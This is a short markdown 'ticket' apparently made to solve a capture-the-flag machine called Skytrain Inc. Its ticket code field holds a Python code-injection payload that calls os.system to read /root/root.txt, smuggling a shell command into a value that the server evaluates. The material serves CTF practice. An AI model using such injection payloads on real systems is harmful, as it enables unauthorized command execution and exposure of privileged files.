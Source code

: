 # Skytrain Inc
## Ticket to root the box
__Ticket Code:__
**102+__import__('os').system('cat /root/root.txt')**
## Issued: 2021/08/19
# End Ticket

